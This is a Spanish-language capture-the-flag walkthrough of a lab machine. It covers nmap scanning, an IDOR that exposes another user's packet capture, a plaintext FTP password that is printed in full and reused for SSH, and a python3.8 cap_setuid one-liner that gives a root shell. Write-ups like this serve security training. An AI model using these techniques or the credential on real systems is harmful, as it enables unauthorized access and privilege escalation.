

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.245
Host is up, received user-set (0.31s latency).
Scanned at 2024-09-11 09:52:35 -03 for 21s
Not shown: 50055 closed tcp ports (reset), 15477 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p21,22,80 10.10.10.245
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| 256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_ 256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open http gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 404 NOT FOUND
| Server: gunicorn
| Date: Wed, 11 Sep 2024 12:55:31 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Content-Length: 232
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
| <title>404 Not Found</title>
| <h1>Not Found</h1>
| <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
| GetRequest:
| HTTP/1.0 200 OK
| Server: gunicorn
| Date: Wed, 11 Sep 2024 12:55:24 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Content-Length: 19386
| <!DOCTYPE html>
| <html class="no-js" lang="en">
| <head>
| <meta charset="utf-8">
| <meta http-equiv="x-ua-compatible" content="ie=edge">
| <title>Security Dashboard</title>
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
| <link rel="stylesheet" href="/static/css/bootstrap.min.css">
| <link rel="stylesheet" href="/static/css/font-awesome.min.css">
| <link rel="stylesheet" href="/static/css/themify-icons.css">
| <link rel="stylesheet" href="/static/css/metisMenu.css">
| <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
| <link rel="stylesheet" href="/static/css/slicknav.min.css">
| <!-- amchar
| HTTPOptions:
| HTTP/1.0 200 OK
| Server: gunicorn
| Date: Wed, 11 Sep 2024 12:55:25 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Allow: HEAD, GET, OPTIONS
| Content-Length: 0
| RTSPRequest:
| HTTP/1.1 400 Bad Request
| Connection: close
| Content-Type: text/html
| Content-Length: 196
| <html>
| <head>
| <title>Bad Request</title>
| </head>
| <body>
| <h1><p>Bad Request</p></h1>
| Invalid HTTP Version 'Invalid HTTP Version: 'RTSP/1.0''
| </body>
|_ </html>
Si ingresamos a la web vemos lo siguiente. Aparentemente estamos ya logueados al sitio como Nathan:
Desde Security Snapshot, podemos descargar una captura de paquetes. Al abrirlo, vemos nuestro propio escaneo:
Intrusión
La URL tiene el siguiente formato: http://10.10.10.245/data/1. Si intentamos, en vez de 1, poner 0 y descargamos la captura que nos muestra, vemos la de otro usuario ya que es un direccionamiento distinto:
Como el servicio FTP está abierto, y este trabaja en texto plano, filtramos e inspeccionando los paquetes. Encontramos la credencial del usuario nathan:
nathan: Buck3tH4TF0RM3!
Nos logueamos a través del FTP y vemos la flag user.txt

Aprovechando que tenemos una contraseña y el servicio SSH, vamos a probar conectar para ver si se reutiliza. Efectivamente, podemos conectar.
Tomamos la primera flag:
Escalación de privilegios
Buscamos capabilities:
getcap -r / 2>/dev/null
Vemos que python3.8 tiene la capability cap_setuid:
Nos apoyamos en GTFOBins y lo ejecutamos de la siguiente manera:
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
Ya somos root y podemos ver la siguiente flag: